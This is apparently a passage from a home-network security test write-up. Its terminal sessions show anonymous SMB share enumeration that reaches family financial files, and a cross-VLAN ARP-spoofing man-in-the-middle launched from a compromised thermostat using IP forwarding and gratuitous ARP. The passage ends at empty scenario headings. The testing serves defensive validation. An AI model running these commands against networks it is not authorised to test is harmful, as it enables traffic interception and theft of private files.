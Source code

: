 ```bash
guest@kali:~$ smbclient -L //192.168.32.115 -N
    Sharename       Type      Comment
    ---------       ----      -------
    family-photos   Disk      Family Photo Archive
    public          Disk      Public folder
    backups         Disk      System backups

guest@kali:~$ smbclient //192.168.32.115/public -N
smb: \> ls
  .                                   D        0  Fri May 30 08:00:00 2025
  ..                                  D        0  Fri May 30 08:00:00 2025
  TaxReturns2024.pdf                  N   458293  Thu May 29 14:23:11 2025
  FamilyFinances.xlsx                 N    82910  Wed May 28 09:15:33 2025
  
# 🚨 CRITICAL: Guest can access family file shares!
```

**Test 4: Advanced Attack - Cross-VLAN ARP Spoofing**
```bash
# From compromised IoT device (192.168.64.100)
iot@thermostat:~$ # Limited busybox environment but that's enough

# Enable IP forwarding for MITM
iot@thermostat:~$ echo 1 > /proc/sys/net/ipv4/ip_forward

# Check current ARP entries across VLANs
iot@thermostat:~$ cat /proc/net/arp | grep -v "00:00:00"
IP address       HW type     Flags       HW address            Device
192.168.64.1     0x1         0x2         70:a7:41:ed:c1:df     eth0
192.168.32.100   0x1         0x2         f4:6d:04:8a:7c:15     eth0
172.17.64.193    0x1         0x2         84:b1:e2:70:f6:75     eth0
10.16.16.10      0x1         0x2         dc:a6:32:45:67:89     eth0

# Send gratuitous ARP to poison Work laptop about Home gateway
iot@thermostat:~$ arping -U -c 3 -I eth0 -S 192.168.32.1 172.17.64.193
ARPING 172.17.64.193 from 192.168.32.1 eth0
Sent 3 probes (3 broadcast(s))

# Now IoT device is MITM between Work and Home networks!
# Despite being on completely "isolated" VLANs
```

## ⚠️ ATTACK SURFACE ANALYSIS

> **🛡️ Disclaimer**: All testing performed on owned infrastructure for security validation purposes

### 🎭 Scenario 1: Guest Network Exploitation

<details><summary><strong>🔍 Technical Details (Click to Expand)</strong></summary></details>

### 💀 Scenario 2: IoT Device Lateral Movement

